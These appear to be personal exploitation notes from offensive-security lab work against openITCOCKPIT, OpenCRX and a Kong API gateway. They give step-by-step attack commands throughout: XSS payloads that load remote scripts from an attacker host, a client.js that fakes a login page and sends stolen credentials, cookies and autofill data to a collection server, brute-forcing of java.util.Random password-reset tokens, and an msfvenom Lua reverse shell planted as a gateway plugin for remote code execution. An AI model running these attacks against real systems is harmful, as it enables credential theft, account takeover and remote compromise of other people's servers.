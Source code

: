 ## Miscellaneous Exploits:

    JavaScript - Library Enumeration & XSS (Blackbox) -> CSRF Content Scraping (openITCOCKPIT):
        Brute-forcing JavaScript libraries:
            wget https://github.com/nice-registry/all-the-package-names/raw/master/names.json
            jq '.[0:10000]' names.json | grep ","| cut -d'"' -f 2 > npm-10000.txt
            gobuster dir -w ./npm-10000.txt -u https://openitcockpit/js/vendor/ -k
            Then their sub-files/versions:
                Put library urls into packages.txt:  https://openitcockpit/js/vendor/fineuploader, etc.
                while read l; do echo "===$l==="; gobuster dir -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -k -q -u $l; done < packages.txt
                Look for versions:  while read l; do echo "===$l==="; curl $l/README.md -k; done < packages.txt
        Finding XSS: Download the libraries/versions from github, then search their .html files for DOM-based XSS vulns (ex. url params):
            find ./ -iname "*.html"
            grep -r "document.write" ./ --include *.html    //Looking for user-controlled input to page
                grep -r "buildPath[[:space:]]*=" ./         //Finding where a variable is set
            POC:  ex.  https://192.168.169.129/js/vendor/lodash/perf/index.html?build="></script>;<script>alert(1)</script>
                Remote Script:  https://192.168.169.129/js/vendor/lodash/perf/index.html?build="></script>;<script src="http://192.168.119.169/alert.js"></script>
                    Content:  alert(1)
                Remote iFrame:  https://192.168.169.129/js/vendor/lodash/perf/index.html?build="></script>;<iframe src="https://192.168.119.169/alert.html" width="600" height="600"></iframe>
                    Content:  <script>alert(1)</script>
                Host Local HTTPS Script (to avoid mixed content types):
                    openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
                    https://stackoverflow.com/questions/19705785/python-3-simple-https-server
                    Or keep HTTP:  In FireFox set security.mixed_content.block_active_content to false
            Cookies:
                Check if HTTPOnly is set:  console>Storage>Cookies  -> if it is, can't steal via XSS
            Site Enumeration via XSS - Custom Exploitation Application:
                3 main components: XSS payload script, SQLite database to store collected content, & Flask API server to receive content 
                POC: Querying content (test in console) and Faking Login Page:
                    Run on login page:
                        loginhtml = document.getElementsByTagName("html")[0].innerHTML;
                        localStorage.setItem("loginhtml", loginhtml);
                    Run on XSS vulnerable page:
                        lpage = localStorage.getItem("loginhtml");
                        document.getElementsByTagName("html")[0].innerHTML = lpage;
                    Bonus: Disabling login submit button (keep user on page):  <form onsubmit="myFunction(); return false;">
                    Bonus: Keep user longer w/ iframe trap:  https://www.trustedsec.com/blog/persisting-xss-with-iframe-traps/
            Create Database to Store Exfiltrated Data:
                Manually:  python3 db.py –-create
                Example Usage (by API):
                    Insert Page:  python3 db.py -i -L 'http://target/abc' -C '<h1>abc</h1>'
                    Insert Cookie:  python3 db.py -i -V1 'auth:98234238'
                    Insert Creds:  python3 db.py -i -V2 'username:abcabc'
                    View All Cookies:  python3 db.py -g2
                    View All Creds:  python3 db.py -g3
                    View Page URLs:  python3 db.py -l
                    View a Page's Content:  python3 db.py -g -L 'http://target/abc'
            Create Flask Server to Collect Exfiltrated Data:
                sudo pip3 install flask_cors
                Generate Certificate (for HTTPS):  openssl req -x509 -newkey rsa:4096 -nodes -out cert.pem -keyout key.pem -days 365
                sudo python3 api.py
            Exploit:  https://192.168.169.129/js/vendor/lodash/perf/index.html?build="></script>;<script src="https://192.168.119.169/client.js"></script>
            Dump results:  python3 dump.py
            Payload Steps (client.js):
                1. Replaces vulnerable page DOM with fake login page.
                    Bonus: modifies form onsubmit action to send creds to our API server.
                2. Loads the home page.
                    Via iframe, not XHR - this accounts for redirects and JS scripts that load additional links.
                Bonus: Scrapes Auto-Fill Creds and Cookies for the site and sends back to our API server
                3. Searches for all unique links ("a" elements) and save their hrefs.
                4. Fetches the content of each link.
                5. Sends the content obtained from each link to our API server.       
            Parse Output URLs:  python3 dump.py

    Java - java.util.Random Exploitation:
        Use debugging! Target server might have time offset.
        ex. Password Reset Token Brute-Forcing (OpenCRX):
            If we can predict when a token is requested, we should be able to generate a matching token by manipulating the seed value when creating our own Random object
            Getting range of potential seed values:
                date +%s%3N && curl -s -i -X 'POST' --data-binary 'id=guest' 'http://opencrx:8080/opencrx-core-CRX/RequestPasswordReset.jsp' && date +%s%3N
                    confirm range by converting http header date to epoch time; *run date +%s%3N on both boxes and get offset
            Create our own token generator .java file
                Compile: javac OpenCRXToken.java ; and Run: java OpenCRXToken <t1> <t2> > tokens.txt  (recompile after each change)
                Spray and reset password:  python2 OpenCRXReset.py -u guest -p password  OR  python2 fullExploit.py -u guest -p password            
        ex. 2:
            date +%s%3N > time1.txt && curl -s -i -X 'POST' --data-binary 'username=Carl' 'http://192.168.162.251/generateMagicLink' > /dev/null && date +%s%3N > time2.txt
            javac tokenGenerator.java
            java tokenGenerator %s %s %s > tokens.txt 2> /dev/null
            python2 tokenExploit.py -u Carl -ID 5

    API Plugin RCE (APIGateway):
        Look at default plugins already included (check documentation)
        Serverless Functions plugin - allows RCE through pre-function and post-function sub-plugins
            Check if enabled:  from initial api call - yes
        Pre-Function Plugin runs Lua - create payload:
            msfvenom -p cmd/unix/reverse_lua lhost=192.168.119.169 lport=4444 -f raw -o shell.lua
        For Kong: create a Service, add a Route to the Service, then add Lua shell code as a "pre-function" plugin to the Service
            *Host JavaScript payload that does all that - rce.html
            Upload it:
                curl -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.2:9000/api/render?url=http://192.168.119.169/rce.html"}' http://192.168.169.135:8000/files/import
                    Or:  curl -i -X POST -H "apikey: SBzrCb94o9JOWALBvDAZLnHo3s90smjC" -H "Content-Type: application/json" -d '{"url":"http://192.168.119.169/rce.html"}' http://192.168.169.135:8000/render
            Trigger!:  curl -i http://192.168.169.135:8000/supersecret

    WebSockets - initiated via Javascript - initialization must be located in one of the JS files on the page
